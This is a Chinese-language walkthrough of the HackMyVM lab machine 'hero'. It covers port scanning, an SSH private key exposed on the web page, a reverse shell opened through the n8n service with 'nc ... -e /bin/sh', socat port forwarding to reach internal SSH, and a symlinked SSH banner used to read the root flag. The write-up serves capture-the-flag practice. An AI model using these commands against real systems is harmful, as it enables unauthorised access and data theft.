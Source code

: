 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶机/hackmyvm_hero.md","permalink":"/安全/靶机/hackmyvm_hero/","title":"hackmyvm_hero","tags":["blog"]}
---
```


# 主机发现

```sh
┌──(root㉿kali)-[~/.ssh]
└─# nmap -sT -min-rate 5000 -p- 192.168.124.29
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-07 09:13 EST
Nmap scan report for 192.168.124.29 (192.168.124.29)
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
5678/tcp open  rrac
MAC Address: 08:00:27:1B:51:C7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 23.73 seconds

```



# web渗透

80端口目录扫描啥也没扫出来

```sh
┌──(root㉿kali)-[~]
└─# curl 192.168.124.29
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACComGN9cfmTL7x35hlgu2RO+QW3WwCmBLSF++ZOgi9uwgAAAJAczctSHM3L
UgAAAAtzc2gtZWQyNTUxOQAAACComGN9cfmTL7x35hlgu2RO+QW3WwCmBLSF++ZOgi9uwg
AAAEAnYotUqBFoopjEVz9Sa9viQ8AhNVTx0K19TC7YQyfwAqiYY31x+ZMvvHfmGWC7ZE75
BbdbAKYEtIX75k6CL27CAAAACnNoYXdhQGhlcm8BAgM=
-----END OPENSSH PRIVATE KEY-----

```

首页信息像是一个私钥，但是主机也没开ssh

```sh
┌──(root㉿kali)-[~/workspace/pentest/hero]
└─# ssh-keygen -y -f id2
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKiYY31x+ZMvvHfmGWC7ZE75BbdbAKYEtIX75k6CL27C shawa@hero
```



看一下这个5678端口
运行的是一个N8N 的服务
https://github.com/n8n-io/n8n

![[YA}A5$$DBT(~4HO5O8F%]YX.png]]
这里是大佬给的思路

我在配置凭证的时候一直不成功，然后重装了一遍靶机就好了
![[NB`YJYSETZMO%J2(DIJUUJ.png](/img/user/picture/%5BNB%60YJYSETZMO%25J2(DIJUUJ.png)


![Pasted image 20250208092934.png](/img/user/picture/Pasted%20image%2020250208092934.png)
这里就可以尝试进行反弹shell

![Pasted image 20250208093103.png](/img/user/picture/Pasted%20image%2020250208093103.png)
```
 nc 192.168.124.27 8080 -e /bin/sh
```

![Pasted image 20250208093248.png](/img/user/picture/Pasted%20image%2020250208093248.png)

这里尝试取获得一个稳定的shell一直失败


```sh
netstat -lntup
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5678            0.0.0.0:*               LISTEN      -
tcp        0      0 172.17.0.1:22           0.0.0.0:*               LISTEN      -
tcp        0      0 :::80                   :::*                    LISTEN      -
tcp        0      0 :::5678                 :::*                    LISTEN      -
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
...
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
...
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP
    link/ether 02:42:f5:e3:e5:c6 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:f5ff:fee3:e5c6/64 scope link
       valid_lft forever preferred_lft forever

```

注意到第三行是172.17.0.1:22，监听在特定IPv4地址的22端口。22是SSH端口，但这里的本地地址是172.17.0.1，这通常是Docker或其他容器网络的网关地址。可能主机上的SSH服务只绑定在这个内部地址，而不是0.0.0.0，这样外部网络可能无法通过SSH连接

所以我们尝试将这个转发出去
这里分享一下工具链接
https://github.com/ernw/static-toolbox/releases/tag/socat-v1.7.4.4

```sh
./socat TCP-LISTEN:2222,fork TCP4:172.17.0.1:22 &

netstat -lntup
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5678            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      2949/socat
tcp        0      0 172.17.0.1:22           0.0.0.0:*               LISTEN      -
tcp        0      0 :::80                   :::*                    LISTEN      -
tcp        0      0 :::5678                 :::*                    LISTEN      -

```

用私钥连接就可以了

```sh
ssh -i id2 -p 2222 shawa@192.168.124.30

...

hero:~$ ls
user.txt
hero:~$ cat user.txt
HMVOHIMNOTREAL
```




# 提权

sudo和suid都没什么东西

发现在ssh配置文件中设置了banner
```txt
# no default banner path
Banner /opt/banner.txt
```

```sh
hero:~$ cat /opt/banner.txt
shawa was here.
hero:~$ ls -l /opt/banner.txt
-rw-rw-rw-    1 root     root            16 Feb  6 10:09 /opt/banner.txt
```

```sh
hero:~$ ls -l /
total 65
...
drw-rw-rwx    3 root     root          4096 Feb  6 10:14 opt
...
```
发现opt目录我们是有操作权限的
所以我们就可以实现任意文件读取


```sh
hero:/opt$ rm banner.txt
hero:/opt$ ls
containerd
hero:/opt$ ln -sv /root/root.txt banner.txt
'banner.txt' -> '/root/root.txt'
hero:/opt$ ls -al
total 12
drw-rw-rwx    3 root     root          4096 Feb  8 02:38 .
drwxr-xr-x   21 root     root          4096 Feb  6 10:03 ..
lrwxrwxrwx    1 shawa    shawa           14 Feb  8 02:38 banner.txt -> /root/root.txt
drwx--x--x    4 root     root          4096 Feb  6 10:14 containerd
hero:/opt$ ssh root@localhost -p 2222
The authenticity of host '[localhost]:2222 ([127.0.0.1]:2222)' can't be established.
ED25519 key fingerprint is SHA256:EBZrmf2l6+BtffXHAEtSx6Suq5Wf09yzZlVqbQaGOVM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:2222' (ED25519) to the list of known hosts.
HMVNOTINPRODLOL
root@localhost's password:

```
得到flag
```txt
HMVNOTINPRODLOL
```






